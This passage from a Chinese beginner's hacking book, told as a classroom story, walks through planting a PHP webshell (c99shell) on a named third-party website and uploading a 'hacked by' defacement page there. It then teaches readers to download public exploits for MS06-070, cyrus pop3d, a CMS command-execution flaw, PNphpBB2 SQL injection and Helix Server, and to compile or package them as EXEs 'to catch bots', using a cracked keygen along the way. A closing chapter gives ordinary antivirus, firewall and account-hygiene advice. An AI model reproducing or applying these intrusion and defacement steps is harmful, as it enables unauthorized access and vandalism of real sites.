> **小提示：**如果您还没有自己的网页空间，也可以将 php 木马保存到自己的空间里进行测试。但要注意：对于 asp 等不支持 php 文件的空间，我们可以直接使用 php 后缀；如果空间支持 php，则需要将 php 木马后缀改为 txt、jpg 等不会被正确解析的格式，在需要执行时再通过相关方式调用。也可以直接使用示例地址中的 php.txt（如 `http://www.sagi.net.cn/php.txt`、`http://www.sagi.net.cn/c99shell.txt`）。

从 PHP 木马获取的信息中我们可以知道，对方使用的操作系统为 Linux，内核为 2.6.15，使用的 Apache 为 1.3.37，PHP 的版本为 4.4.7。另外我们还知道了自己当前的用户身份为 nobody，我们的 php 木马所处的工作目录为 `/home/feedread/public_html/`。这些信息对我们非常有用，来看一下当前目录下文件的详细信息。发现该目录下的文件及子目录均为 feedread 用户所有，不过幸运的是发现 articles 和 backup 这两个目录的权限为 rwxrwxrwx。

图 5.92

图 5.93

也就是所有的用户都具有读、写、执行的权限。真是太好了，我们可以将自己的 php 木马上传到这两个目录下，否则的话就只有一点点地寻找允许我们写入的目录了。

我们点击打开 backup 目录，然后往下拉 php 木马，找到 Upload 一项，点击浏览选择我们要上传的 php 木马，然后点击“Upload”，如图 5.92。稍等一下，就会看到 sagi.php 已经成功上传到对方的 backup 目录下了，如图 5.93。

我们重新打开浏览器，在地址栏输入 `http://feedread.info/backup/sagi.php`，我们的 php 木马出来了，如图 5.94，webshell 搞定了。

图 5.94

图 5.95

#### 5.4.2 来给对方挂上一个黑网页吧

是不是有时候挺羡慕那些高手给别人的网站挂上一个黑网页呢？哈哈，不要着急，下边我们也来制作一个黑网页给对方挂上。

打开 FrontPage（Office 中的一个组件，如果我们完全安装 Office 的话，就会找到 FrontPage 的），从“格式”中找到“网页属性”，将网页的背景选成黑色，将文字的颜色选成红色，如图 5.95。确定后，就会发现 FrontPage 设计窗口里的颜色变成黑色了，然后我们选择“插入”－“图片”－“来自文件”，如图 5.96，依次插入“hacked by”这些图片，调整好位置，在后边输入我们的网名 sagi，选择 sagi，对字号以及字体进行相应调整，直到自己满意为止，如图 5.97。

图 5.96

图 5.97

最后我又在上边插入了一张五星红旗的图片，把位置都重新调整一下，直到自己满意，然后将文件保存为 `index.htm` 或 `index.html`。别忘记了那些要使用到的图片文件要和这个 index 文件存放在一起，如图 5.98。

图 5.98

打开我们的 php 木马，往下找到“Upload files on server”，在“Local file”栏输入我们刚才制作好的 `index.htm` 文件，然后点击“Upload”，如图 5.99，文件就会被上传上去了。我们依次将所有要使用到的图片文件也上传上去，如图 5.100。最后，我们在浏览器地址栏输入 `http://feedread.info/backup/index.htm`，哈哈，我们制作的黑网页显示出来了，如图 5.101。事实上，对于上述利用远程注入以及 IIS 写权限获得的 webshell，我们也完全可以上传这个黑网页，来黑掉对方。

图 5.99

## 第五章 从零开始学入侵

图 5.100

图 5.101

各位同学，今天的课我们就讲到这儿。以上这些就是黑客们入侵网站所经常用到的方法。随着时间的推移，我们今天所介绍的一些安全漏洞都会慢慢消失，但同时也会有一些新的安全漏洞被公布。因此对于黑客来讲，掌握最新的安全漏洞信息是非常重要的，这可以让他们永远走在别人的前头。目前，在国内外有许多网站都会及时公布安全漏洞信息，甚至是漏洞的测试程序，比如 milw0rm 网站。另外，sagi 老师我喜欢将国外最新公布的一些漏洞信息收录在我的个人论坛上（`http://www.sagi.net.cn/bbs`），各位菜同学有空的话可以去关注一下这些最新的漏洞。好了，放学吧！

## 第六章 菜鸟进化之打造自己的黑客工具

“sagi 老师，昨天回到家后我们按照你告诉的那个网址，登录了你的那个破论坛，可论坛里收录的都是什么呀，全是英文代码，连一个中国字都没有，我们根本就看不懂，更别说如何使用这些发布的漏洞利用程序了。”sagi 刚走进教室，讲台下的阿菜和阿瓜就劈头盖脸地抱怨了。

“不懂？不懂就对了，就因为不懂所以才需要学习嘛，如果你们已经懂了，那还需要我来给你们讲课吗？”sagi 理直气壮地说出了自己的见解，“你们不懂，不代表我不懂，既然我是你们的老师，知道的自然要比你们多一些，是吧！”讲到这儿，sagi 望了望台下的小菜，只见个个都已经是汗滴脚下土了。

见没有人再提出什么问题了，sagi 咳嗽了一声继续说道：“昨天我们已经详细地介绍了一些黑客目前最常使用的入侵方法，那么今天，我们这堂课的主要内容就是教会大家如何使用那些黑客网站上公布的漏洞利用程序，只有这样，我们才会与时俱进，掌握最新漏洞的利用，做到永远走在别人的前头，才能更好地去抓肉鸡！”听到 sagi 老师终于不再废话而开始讲课了，众菜菜终于长吁了一口气，开始认真地听讲了。

### 6.1 C 程序的编译及执行

请各位菜同学首先打开我的论坛，找到“Windows 溢出”版块下的“远程溢出”子版块，然后从中找到“MS Windows NetpManageIPCConnect Stack Overflow Exploit (MS06-070)”这个帖子，这个就是去年底公布的 Windows Workstation 服务组件远程溢出漏洞的利用程序。我们点击打开帖子，仔细看一下程序代码，看到“`#include <windows.h>`”、“`#include <winsock.h>`”以及“`#pragma comment()`”了吗，如图 6.1？请大家记住，以后当我们再看到这样的头文件的时候，就要知道这样的程序是使用 C 或 C++ 编写的，我们可以使用 VC++ 将它们编译成 EXE 可执行程序。

图 6.1

#### 6.1.1 VC++ 的安装及编译

我们使用 Visual Studio 6.0 来安装 VC++ 6.0，打开安装光盘，点击运行“安装请运行我 SETUP.EXE”，其安装界面就出现了，如图 6.2。点击“下一步”，就出现了用户许可协议界面，选择“接受协议”，然后点击“下一步”，程序会要求我们输入产品的 ID 号，我们输入 `111-1111111`，至于下边的姓名和公司名称，大家可以随意输入，如图 6.3。

接着点击“下一步”，会提示我们“更新 Microsoft Virtual Machine for Java”，勾选上，然后点“下一步”，会来到企业版安装选项界面，我们选择“自定义”，如图 6.4。“下一步”后会提示我们选择公用文件的安装文件夹，如图 6.5。接着就来到了安装项目的选择界面，在 Visual Studio 6.0 中，除了有 VC++ 6.0 外，还有 VB 6.0、VF 6.0 等等，大家可以根据自己的需要来选择安装，如图 6.6。

点击“继续”，程序会提示我们注册环境变量，勾选上，然后点“确定”，如图 6.7。程序就会自动进行安装了，如图 6.8。安装完成后会提示我们安装 NT 系统符号文件以方便调试应用程序，如图 6.9。“确定”后，安装程序会要求我们重新启动电脑，就可以完成整个安装过程了。

我们选择“开始”－“程序”－“Microsoft Visual Studio 6.0”下的“Microsoft Visual C++ 6.0”，就可以运行 VC++ 6.0 了，如图 6.10。

图 6.7

图 6.8

图 6.9

图 6.10

图 6.11

那么，要如何才能将刚才的那个远程溢出程序编译成 EXE 可执行程序呢？先将帖子里的远程溢出程序代码复制下来，存到文本文件中，然后将文件改为 `.c` 或 `.cpp` 结尾的，比如 `ms06070.c`，直接双击该文件，就会自动选择以 VC++ 来打开了，如图 6.11。

接下来选择最上方工具栏“编译”下的“编译 ms06070.c”，VC++ 就会自动对程序进行编译了，在 VC++ 的下方窗口中会显示出是否有错误或警告信息，如图 6.12。有一点大家要了解，即使编译程序的过程中出现了警告信息，也并不会影响程序的编译，但如果出现错误的话，那就得修改程序中的错误才行了。

图 6.12

图 6.13

然后我们选择工具栏“编译”下的“构建 ms06070.exe”，如果没有提示错误的话，EXE 文件就会顺利地编译出来了，如图 6.13。

我们来到 `ms06070.c` 所在的文件夹下，会看到生成了许多以 `ms06070` 命名的文件以及一个名为 Debug 的文件夹，编译好的 `ms06070.exe` 就是自动存放在这个文件夹下的，如图 6.14。

图 6.14

我们打开 CMD 命令提示符，进入到 Debug 目录，直接运行 `ms06070`，该漏洞利用程序的具体使用格式“`ms06070 targetip DomainName`”，也就是“`ms06070 目标的 IP 地址 域名称`”显示了出来，如图 6.15。就这样，一个漏洞利用程序简简单单地就被我们“加工制造”出来了。

图 6.15

### 6.1.2 Unix/Linux 下 GCC 的编译

好了，我们重新打开论坛，找到“Unix/Linux 溢出”版块下的“远程溢出”子版块，然后从中找到“cyrus pop3d remote exploit”这个帖子，这是去年五月公布的一个针对 cyrus pop3d（pop3 服务使用 110 端口）的远程溢出程序。我们点击打开帖子，仔细看程序代码，看到“`#include <sys/socket.h>`”这样的头文件了吗，如图 6.16。与刚才那个 Windows 的溢出程序中使用的头文件不一样吧？以后请大家记住，凡是看到程序中包含的是 sys 下的头文件，那么这类程序都是基于 UNIX/Linux 系统的，需要在 UNIX/Linux 下使用 GCC 来进行编译。

图 6.16

同样，先将该漏洞利用程序保存为以 `.c` 结尾的文件，比如 `cyruspop3d.c`，然后我们在 Linux 系统下切换到终端 shell，来到 `cyruspop3d.c` 所在的目录下，使用 **gcc -o cyruspop3d cyruspop3d.c** 的格式来进行编译。如果程序没有错误的话，就会在当前目录下编译成一个名为 `cyruspop3d` 的可执行程序了。那么，要如何运行编译后的程序呢？我们在当前目录下使用 **./cyruspop3d** 这种格式，就可以正常运行该漏洞利用程序了，如图 6.17。看，程序清楚地给出了使用格式 **./cyruspop3d 目标主机IP 返回地址**。

图 6.17

> “sagi 老师，你明知道我们使用的是 Windows 系统，根本就不使用 UNIX/Linux 系统嘛，碰到那些需要在 UNIX/Linux 下编译的程序岂不是就用不了了？如果这样的程序也能在 Windows 下编译成 EXE，那使用起来就简单多了。”讲堂下的阿黑说道。  
> “是的，为了解决这个问题，高手们早就想到了一个解决的方法，那就是使用 Cygwin！”

### 6.2 使用 Cygwin 制作自己的黑客工具

“Cygwin 是个什么东东？”台下的阿呆他们从没有听说过这个奇怪的名字，不由得好奇地问道。

“Cygwin 是 Cygnus Solutions 公司开发的一款在 Windows 系统下模拟 Linux 运行环境的程序，它可以将许多应用程序从 UNIX/Linux 移植到 Windows 系统下来运行。还记得我们在第二章中介绍过的 MetroPipe VPM 那款 Linux 模拟软件吗？以后大家也可以通过 Cygwin 来学习 UNIX/Linux 的命令操作。好了，我们先来看一下 Cygwin 的安装。”

#### 6.2.1 Cygwin 的安装及使用

我们打开 Cygwin 的安装包，直接双击运行其中的 `Setup.exe` 文件，Cygwin 的安装界面就会出现了，如图 6.18。直接点击“下一步”就来到了下载和安装的选择界面，主要包括了三个选项：

- Install from Internet（从 Internet 上来安装）
- Download from Internet（从 Internet 上来下载）
- Install from Local Directory（从本地目录来安装）

我们选择从本地目录来安装，然后点击“下一步”，如图 6.19。

图 6.18

图 6.19

接着会让我们选择要安装到的目录，比如我们想将 Cygwin 安装到 f: 盘的 `cygwin` 目录下，就输入 `f:\cygwin`。左下方的“Install For”，我们可以任意选择，如果选择“Just Me”的话，那么安装的 Cygwin 则只有当前安装的用户才能使用。而“Default Text File Type”，也就是缺省的文本文件类型，我建议选择 Unix，如图 6.20。

点击“下一步”后就来到了本地安装包路径的选择界面，注意是我们 Cygwin 安装文件的路径，可不是要安装到的目录哟，大家可别搞错了，如图 6.21。

图 6.20

图 6.21

继续“下一步”，就来到了安装包的选择界面，默认选择的是 Default（缺省）的安装，如图 6.22。大家别急着点“Next”，事实上这种缺省安装有许多软件包都没有被选中。为了更好地使用 Cygwin 的强大功能，我建议安装所有的包。

那要如何才能更改安装包的选择呢？在安装界面的左下角已经告诉了我们，可以点击那个类似“S”的图标来更改安装包的选择。我们点击第一行中的那个类似“S”的图标，就会发现安装包的选择已经改变了，当看到“Default”变为“Install”就行了，表示我们已经选择了所有包的安装，如图 6.23。

图 6.22　图 6.23

现在点击“Next”后，Cygwin 就会自动进行安装了，如图 6.24。安装完成后，会提示我们是否在桌面上建立一个图标，以及是否添加到开始菜单中，如图 6.25。最后点击“完成”，整个安装就结束了。

图 6.24　图 6.25

双击桌面上的 Cygwin 图标，Cygwin 的运行界面就会出现了，如图 6.26。是不是非常像 UNIX/Linux 下的 shell 界面呀？在 `$` 提示符后，我们就可以执行相应的 Linux 命令了。我们还是以刚才的那个 `cyruspop3d.c` 为例，来介绍一下如何在 Cygwin 下将其编译成 EXE 文件。

将 `cyruspop3d.c` 复制到 cygwin 安装目录的 `home` 下的 `Administrator` 子目录下（Administrator 也就是我刚才安装 cygwin 时使用的用户，因此运行 cygwin 后会自动将该目录作为默认的工作目录），然后在 Cygwin 下直接使用：

```bash
gcc -o cyruspop3d cyruspop3d.c
```

来进行编译。如果程序有错误的话，会直接显示出来，否则将直接返回到 `$` 提示符下。此时我们会发现在目录下已经多出了一个 `cyruspop3d.exe` 文件了，如图 6.27。

图 6.26

图 6.27

“不对呀，sagi 老师，我按照你教给我们的步骤生成了 EXE 文件后，怎么一执行就提示错误呀，弹出了一个小窗口，说没有找到 cygwin1.dll 什么的，是不是我刚才的操作步骤有什么错误呀，如图 6.28。”阿黑疑惑地问道。

图 6.28

“嗯，既然我们已经成功地编译出了 EXE 文件，自然就说明我们的操作没有错误。唯一的问题就是使用 Cygwin 编译出来的程序，必须要配合 cygwin1.dll 这个文件才能正确地执行。我们把 cygwin1.dll 和刚才编译成的 cyruspop3d.exe 放在一起，然后再重新运行看看，溢出程序现在已经可以正常地运行了吧，如图 6.29。”

### 6.3 Perl 脚本程序的执行及编译

在网上公布的漏洞利用程序中，除了使用 C/C++ 语言编写的外，还有相当一部分是使用 Perl 脚本语言编写的。我们回到论坛，打开“Windows 溢出”的“SQL 注入及文件包含”子版块下的“Entertainment CMS (Local Inclusion) Remote Command Execution Exploit”这个帖子，翻译成中文也就是“Entertainment CMS 本地包含/远程命令执行漏洞”，我们点击打开帖子，看程序代码的第一行“#!/usr/bin/perl”，如图 6.30。大家记住，以后再看到这样类似的说明，就要知道这样的程序是使用 Perl 脚本语言编写的。

图 6.29

图 6.30

#### 6.3.1 ActivePerl 的安装

对于 Perl 脚本程序，我们只需要在自己的电脑上安装 Perl 脚本语言解释程序，就可以执行这类 Perl 程序了。双击 ActivePerl-5.8.8.819-MSWin32-x86-267479.msi，ActivePerl 的安装界面就会出现了，如图 6.31。

点击“Next”后就出现了安装许可界面，直接选择“I accept the terms in the License Agreement”，然后点击“Next”，就来到了安装选项的选择界面。我们可以通过右下方的“Browse”按钮来选择 ActivePerl 安装到的目录，如图 6.32。然后继续点击“Next”，就出现了添加环境变量的选项，如图 6.33。

## 第六章：菜鸟进化之打造自己的黑客工具

图 6.31

图 6.32

图 6.33

接下来，安装程序会提示我们准备安装，直接点击下边的“Install”按钮，程序就会自动进行安装了，如图 6.34。大家耐心地等待一会儿，安装完成后，程序会提示我们是否阅读注意事项等内容，点击“Finish”，ActivePerl 的安装就大功告成了，如图 6.35。

图 6.34

图 6.35

我们把论坛上的那个程序保存下来，改成以 .pl 结尾的文件，比如 cms.pl。接下来，打开 CMD，直接输入 cms.pl 就可以执行这个程序了，如图 6.36。

图 6.36

### 6.3.2 把 Perl “加工”成 exe 程序

如果想执行 Perl 程序，还需要在电脑里安装 ActivePerl。倘若大家感觉这样比较麻烦的话，还可以使用 Perl2exe 来将 Perl 程序简单地“加工”成 exe 程序。这样，不管是我们自己使用，还是将加工生成的 exe 程序发布在网上，使用起来就方便得多了。

在使用 Perl2exe 前，我们需要将程序注册一下。打开 CMD，来到 Perl2exe 的 Perl2Exe v8.80 cracked 目录下，直接运行 keygen，然后按照提示输入用户名以及注册名称，回车后就会得到注册码了，如图 6.37。

图 6.37

返回到 Perl2exe 目录下，运行 **perl2exe -register**，然后按照提示输入我们刚才得到的注册码，回车后，就会提示我们 Registered，注册成功了，如图 6.38。

图 6.38

我们直接在 CMD 下输入 perl2exe，就会得到它的使用格式了，如图 6.39。还是以前的 cms.pl 为例，将 cms.pl 复制到 perl2exe 的目录下，然后在 CMD 下执行 **perl2exe cms.pl**，就会在目录下编译生成 cms.exe 了，如图 6.40。最后，我们执行一下生成的 cms.exe 程序，一切正常，Perl 程序就这么简单地被我们加工成 exe 程序了，如图 6.41。

图 6.39

图 6.40

图 6.41

### 6.4 PHP 脚本的执行及编译

我们再来看论坛“Windows 溢出”的“SQL 注入及文件包含”子版块下的“PNphpBB2 <=1.2 (index.php c) Remote SQL Injection Exploit”这个帖子，也就是“PNphpBB2 1.2 及以下版本远程 SQL 注入漏洞”。我们看漏洞利用程序的第一行“<?”（也有一些漏洞利用程序则是“<?php”），而最后一行则是“?>”。各位同学请记住，对于这样的程序，我们可以使用 PHP 来解释执行，如图 6.42。

图 6.42

#### 6.4.1 PHP 脚本的执行

我们把漏洞利用程序保存下来，改成以 .php 为结尾的，比如 pnphpbb2.php。我们直接将 pnphpbb2.php 复制到 php5 的目录下，如图 6.43，然后打开 CMD 命令提示符，来到 php5 的目录下，直接执行 `php pnphpbb2.php`。看，pnphpbb2.php 已经被成功地解释执行了，如图 6.44。

图 6.43

图 6.44

#### 6.4.2 把 PHP 也“加工”成 EXE 程序

图 6.45

能不能将 PHP 程序也像 Perl 那样加工成使用方便的 EXE 程序呢？答案是肯定的。我们可以使用 php2exe.exe，这是来自俄罗斯的一款将 PHP 脚本转换成 EXE 程序的工具，而且是图形界面的，操作非常简单。双击 php2exe，程序界面就会出现了。我们通过“Path to script”（脚本路径）最右边的按钮选择好我们要转换的 php 程序，如图 6.45；在下方的“Options”（选项）中选择 php 5.1，然后点击“Convert”按钮。程序会要求我们选择转换后的 exe 程序保存到的目录及文件名，如图 6.46。选择好后，php2exe 就会提示我们 EXE 文件已经建立成功了，如图 6.47。

图 6.46

“哇，怎么在 CMD 下运行生成的 EXE 程序，居然提示说没有找到 php5ts.dll 呀，如图 6.48？难不成这样生成的程序也要像 Cygwin 生成的 EXE 程序一样，需要特定的 dll 文件支持才能运行吗？”没料到讲台下的阿呆破天荒地提出了这个很有深度的问题。

图 6.47

“哈哈，阿呆啥时候也变得聪明起来了。确实如此，生成的 EXE 程序需要 php5ts.dll 才能正确运行。”

“那我们上哪儿去找 php5ts.dll 呢？”阿莱问道。

“我们在 php5 的目录下就会找到这个 dll 文件的。将这个文件复制出来，和生成的 pnphpbb2.exe 放在一起，我们再来执行一下看看，如图 6.49，程序正常地运行了。”

图 6.48

图 6.49

### 6.5 Python 脚本程序的执行及编译

最后我们再来看一下论坛“Windows 溢出”的“远程溢出”子版块下的“Helix Server 11.0.1 Remote Heap Overflow Exploit(win2k SP4)”，这是今年三月底公布出来的一个针对 Helix Server 11.0.1 的远程缓冲区溢出程序。我们来看一下程序的第一行“#!/usr/bin/python”，说明了这个程序是需要使用 Python 脚本来解释执行的，如图 6.50。

图 6.50

#### 6.5.1 ActivePython 的安装

和 ActivePerl 一样，我们在自己的电脑里安装 Python 脚本语言解释程序，就可以执行这些 Python 程序了。双击运行 ActivePython-2.4.3.12-win32-x86.msi，安装界面就会出现了，如图 6.51。

## 第六章 菜鸟进化之打造自己的黑客工具

点击“Next”就出现安装许可界面，直接选择“I accept the terms in the license agreement”，然后点击“Next”，就来到了安装选项的选择界面。我们可以通过下方的“Change”按钮来选择 ActivePython 安装到的目录，如图 6.52。然后继续点击“Next”，安装程序就会提示我们准备安装，直接点击下边的“Install”按钮，程序就会自动进行安装了，如图 6.53。

稍等一会儿，就会提示我们安装完成，并且会询问我们是否打开阅读文档，直接点击“Finish”，ActivePython 的安装就结束了，如图 6.54。

我们将论坛上的那个 Python 程序保存下来，改成以 .py 结尾的文件，比如 helix.py，然后打开 CMD 命令提示符，直接输入 helix.py 就可以执行这个程序了，如图 6.55。很简单吧，这与 ActivePerl 的安装和使用几乎没有什么两样。

### 6.5.2 把 Python 也“加工”成 exe 程序

同样的，我们可以使用 Py2exe 将 Python 程序简单地“加工”成 exe 程序，不过，这个过程比起使用 Perl2exe 将 Perl 程序生成 exe 要稍微麻烦一些。

首先，我们双击运行 py2exe-0.6.6.win32-py2.4.exe，Py2exe 的安装界面就会出现了，如图 6.56。

直接点击“下一步”，就来到了安装目录的选择上。注意，要想使用 Py2exe，必须要先安装 ActivePython。Py2exe 会自动找出 ActivePython 的安装目录，并将自己安装到 ActivePython 的 `\Lib\site-packages\` 目录下，如图 6.57。

点击“下一步”后，程序会提示我们准备安装，继续点击“下一步”，程序就会自动进行安装了，安装过程非常快。

安装完成后，会提示我们“Postinstall script finished”，点击下边的“完成”，整个安装过程就全部结束了，如图 6.58。

图 6.57    图 6.58

那么接下来要如何将 Python 脚本程序“加工”成 exe 程序呢？我们先编写一个 setup.py 文件。打开记事本，输入以下内容：

```python
# setup.py
from distutils.core import setup
import py2exe
setup(console=["helix.py"])
```

其中“helix.py”为我们想要转换的 Python 程序的名称，以后我们只需要更改这个文件名字就可以将这个 setup.py 应用于别的 Python 程序了。将这个文件保存为 setup.py，然后将它和 helix.py 一起复制到 ActivePython 的安装目录下。打开 CMD 命令提示符，来到 ActivePython 的目录下，直接输入 `python setup.py py2exe`，我们就会看到在屏幕上会闪过许多输出信息，如图 6.59。

图 6.59

我们会发现在 ActivePython 的目录下新生成了两个目录，分别是 build 和 dist。build 里是一些 py2exe 运行时产生的中间文件，而 dist 里就是生成的 exe 可执行文件以及其他一些运行时所必须的支持文件。我们重新在 CMD 下执行 dist 目录里生成的 helix.exe 文件，运行正常，“加工”完成了，如图 6.60。

图 6.60

好了，各位同学，今天的课我们就上到这儿。今天所讲的内容很重要，只要大家掌握了上边的方法，那么黑客网站上最新公布的漏洞利用程序，我们就可以在第一时间里对其进行测试了。经过这几天的学习，我们这期的菜鸟学堂也即将要结束了，真舍不得各位菜鸟同学。为了加深与各位同学的感情，请各位同学回去后将这几天所学的内容好好地复习一下，我们明天会进行一次测试考试，来检测一下大家的学习效果如何。还有，考试倒数第一的同学要请客！

居然还要考试！？讲台上的 sagi 老师刚一说完，就听台下的小菜们“啊”的一声惨叫，一个个天旋地转，倒在了地板上。过了老半天，阿菜和阿虫从地上爬起来说道：“我们抗议，今天的内容才刚刚讲完，晚上光练习今天所讲的东西都感觉时间不够用，就更不用说还要复习前几天讲过的知识了，sagi 老师就宽限一天再考试吧。”阿呆和阿黑也附和着。

看到小菜们这么说，sagi 老师只好说道：“那好吧，我们明天就简单地介绍一下如何让我们的电脑变得更安全，至于考试，那就放在后天进行！”

## 第七章 个人电脑安全一点通

“都说有攻就有防，我们已经学会了如何‘攻击’，那么今天我就来简单地介绍一下如何‘防守’。不然，自己还没有成功入侵对方，却反而不小心被对方入侵，甚至中了木马，控制了自己的电脑，那传出去可就丢人了！”

“是的呀，那要如何设置，才能让我们的电脑变得固若金汤，不用再担心中病毒、木马或被别人恶意攻击呢？”

### 7.1 电脑中必不可少的杀病毒软件

杀病毒软件可以清除掉绝大多数的病毒和木马，使我们的电脑恢复正常。虽然杀病毒软件并不是万能的，对于新出的一些木马病毒或是经过免杀处理的木马病毒，它仍然无法查杀，但不管怎么样，有总比没有好！

目前，国内用户使用较多的杀毒软件主要有国外的赛门铁克 Antivirus、卡巴斯基、McAfee VirusScan（麦咖啡杀毒软件）以及国产的江民、金山和瑞星。在此，我们没有必要去评选哪一款杀毒软件才是最好的，毕竟“萝卜青菜，各有所爱”。

我使用的是瑞星，瑞星的安装非常简单，基本上一直点击“下一步”就可以安装成功了。瑞星启动后的界面如图 7.1 所示。当我们安装完成后，需要点击“升级”来将瑞星升级到最新的版本，这样才能够查杀出最新的病毒和木马，如图 7.2。

其实不仅仅是瑞星，即使我们使用的是别的杀毒软件，也要养成随时升级的好习惯。另外，对于杀毒软件的实时监控功能，它的作用还是挺大的，可以在第一时间发现我们电脑上存在的病毒和木马，因此建议大家不要关闭杀毒软件的实时监控功能。

图 7.1

### 7.2 安全防御的利器——网络防火墙

杀毒软件能够对付木马和病毒，但却对付不了来自网络上的恶意攻击。因此，对于个人电脑用户来说，为自己的电脑安装一个网络防火墙是非常有必要的。目前国内用户中使用最多的防火墙主要有瑞星个人防火墙、天网防火墙个人版、ZoneAlarm、BlackICE（黑冰）等。

图 7.2

我们打开瑞星防火墙，然后选择“设置”下的“详细设置”，如图 7.3。点击选择“IP 规则”，在这儿就会看到瑞星默认对于 IP 规则的设置了，如图 7.4。如果我们想对哪一条规则进行修改，比如“禁止 135,445（TCP）”这条规则，那就双击该条规则，会弹出“编辑 IP 规则”界面，我们可以自定义规则的名称以及相应的动作，包括放行、禁止还是忽略等，如图 7.5。当然也可以自行添加新的 IP 规则。

点击“协议”，可以选择协议的类型，另外还可以自定义要禁止的端口，比如把 139 端口也加进去，然后保存就行了，如图 7.6。

我们再来看“详细设置”下的“访问规则”，在这儿主要是对一些应用程序进行设置，设置是否允许其访问网络，如图 7.7。比如我们想修改 Internet Explorer，也就是 IE 浏览器访问规则，只需要双击它，就会弹出“编辑访问规则”窗口了，在“常规模式”中主要有禁止、放行和询问三个选项，如果我们选择禁止的话，那么 IE 浏览器就无法访问网络了，如图 7.8。

图 7.3

图 7.4

图 7.5

图 7.6

图 7.7

图 7.8

至于其它几款网络防火墙的使用和设置方法与瑞星相比大同小异，因此就不再详细介绍了。如果我们不想另行安装防火墙的话，也可以使用 Windows 系统自带的防火墙。打开网络连接，在本地连接上点击鼠标右键，选择“属性”，在本地连接属性中选择“高级”，就会看到 Windows 防火墙了。点击“设置”，选择“启用”，就会开启 Windows 的防火墙了，如图 7.9。选择“例外”，在这儿我们可以通过下方的“添加程序”和“添加端口”来设置允许访问网络的程序和端口就行了，如图 7.10。

### 7.3 电脑安全基础设置

### 7.3.1 用户帐号和密码要注意的问题

我们在前边曾经讲过，当黑客成功地入侵了别人的电脑后，有时会留下一个拥有管理员权限的帐号以供自己使用，因此我们可以在 cmd 命令提示符下运行 `net user` 以及 `net localgroup administrators` 命令来检查自己系统内的用户帐号，如果发现不明来历的用户帐号的话，那就得小心了，可以直接使用 `net user 用户帐号 /del` 命令来删除该帐号，如图 7.11。

如果对方在我们的系统中使用 mt 或 aio 克隆了帐号的话，那么使用上边的命令就根本看不出来了。不过，我们同样可以使用 mt 或 aio 检测系统内是否有克隆帐号。比如我们使用 aio 进行检测，在 cmd 下输入 **aio -checkclone**，结果 aio 提示我们“administrator<==>guest”，也就是说 guest 帐号被克隆成了 administrator 帐号，如图 7.12。

图 7.12

另一个要注意的问题就是用户密码了，有许多个人用户为了上网的便利或是安装系统时不注意，都会将密码设置成与用户帐号一样，或是类似 12345 这样的密码，甚至根本就是使用的空密码。这种情况是很危险的，特别是当用户使用 Win2000/2003 系统时，入侵者可以直接利用这点使用工具将配置好的木马上传到你的电脑上来执行。那么，设置成什么样的密码才算安全呢？我认为最好是设置成字符 + 数字 + 特殊符号，并且密码位数至少要达到 8 位，这样的密码即使是使用 LC5 进行本地破解，也是非常困难的，就更不用说远程口令猜解能够猜测得到了。除此之外，系统的登录密码、QQ 密码、电子邮箱密码，如果有个人网站的话，还有网站的 FTP 密码等也不要设置成一样，以避免其中的某一个密码泄露后，造成更大的损失。

图 7.13

#### 7.3.2 注册表和启动项的检查

许多病毒和木马为了达到随系统启动而启动的目的，都会选择将自己添加到注册表的启动项里。我们在“开始”－“运行”栏中输入 regedit，打开注册表，然后定位到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，在右侧的窗口中就会看到系统启动时所自动运行的程序了，如果在这儿发现了不明加载的程序，就可以直接在该项上点击鼠标右键，然后“删除”它，如图 7.13。

在“开始”－“运行”栏输入 msconfig，打开系统配置实用程序，选择到“启动”项，在这儿我们也会看到随系统启动而运行的一些程序，如果从中发现什么可疑的程序的话，只需要将其前边的勾取消掉，那么下次系统启动时就不会运行这个程序了，如图 7.14。

图 7.14

当病毒和木马运行后，一般情况下我们在任务管理器中都会看到它们的进程。我们可以通过在“开始”－“运行”栏输入 taskmgr 或者按下 Ctrl+Alt+Del，再选择“任务管理器”的方式来运行任务管理器，如图 7.15。

如果我们在系统的进程中发现了类似 123.exe、rundll32.exe 等可疑进程的话，选中该进程，然后直接点击“结束进程”就行了。另外，如果我们没有开启 IE 浏览器，却在进程中奇怪地发现了浏览器进程 iexplore.exe 的话，就表示木马或病毒插入了 IE 浏览器的进程中，我们也需要结束该进程。

大多数情况下，我们都可以结束掉病毒或木马的进程，然后找出病毒或木马程序来删除它们，但是倘若它们采用了进程保护，那么结束掉进程后，过一会儿其进程仍然出现，那么就得使用别的专用工具来进行清除了。

图 7.15

图 7.16

#### 7.3.3 为我们的系统打上补丁

微软每个月都会定期地公布系统最新的漏洞及补丁程序，我们只有为自己的电脑及时地打上这些补丁，修复系统漏洞，才会真正地做到系统安全。如何为自己的系统打补丁呢？鼠标右击“我的电脑”，在右键菜单中选择“属性”，然后在系统属性中切换到“自动更新”项，选中“自动更新”，并且设置一个自动更新的时间就行了，到了设置的时间，系统就会自动下载补丁并进行安装了，如图 7.16。

不过使用这种方法来打补丁，对于我们这些使用盗版系统的菜鸟来说是有很大风险的，目前微软不断更新的正版验证非常让人头疼，不小心打了这个补丁的话，就会提示我们使用了盗版操作系统，每次开机都会特别提示，让人很不爽，万一哪天微软不高兴，让你连系统也进入不了，那可就麻烦了。那有没有更好、更安全的为系统打补丁的方法呢？当然有了，我们可以使用瑞星的安全漏洞扫描器。

选择“程序”－“瑞星杀毒软件”－“瑞星工具”下的“瑞星漏洞扫描”，然后直接点击“开始扫描”，如图 7.17。瑞星漏洞扫描器就会将安全漏洞信息以及我们未修复的安全设置等信息显示出来了，如图 7.18。点击右边的“查看详细”，漏洞的详细信息就会显示出来了，点击左下方的“选择所有”，然后点击“修复选择的漏洞”，程序就会自动下载安装补丁程序，非常方便，如图 7.19。

图 7.17

图 7.18

图 7.19

#### 7.3.4 小心，你的远程桌面

目前，在国内有一款 Ghost 版的 WinXP 系统，被许多电脑公司用于为新买机客户安装系统，但问题就出在这款 Ghost 版的 XP 系统上，因为它不但默认开启了远程桌面连接，还有一个内置的密码为空的 new 帐号。因此，任何人都可以通过这个默认的 new 帐号远程登录进他的桌面，继而控制他的电脑。

鼠标右击“我的电脑”，选择“属性”，在系统属性菜单中切换到“远程”，如果我们发现在远程桌面一项中是允许用户远程连接，如图 7.20，并且系统中也默认存在一个密码为空的 new 帐号的话，那么恭喜你，你的电脑已经为任何人敞开了大门，谁都可以使用远程桌面连接来进入你的电脑。

